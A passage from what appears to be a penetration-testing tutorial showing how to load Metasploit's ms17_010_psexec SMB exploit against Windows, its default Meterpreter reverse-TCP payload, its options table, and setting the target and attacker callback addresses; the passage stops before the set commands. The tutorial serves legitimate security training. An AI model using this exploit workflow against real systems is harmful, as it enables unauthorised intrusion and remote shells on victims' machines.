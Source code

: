 We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

```shell
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```shell
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...

```

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). The second option, `LHOST`, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, `LHOST` is being set to the IP associated with our `tun0` interface.) We can set them with the `set` command:

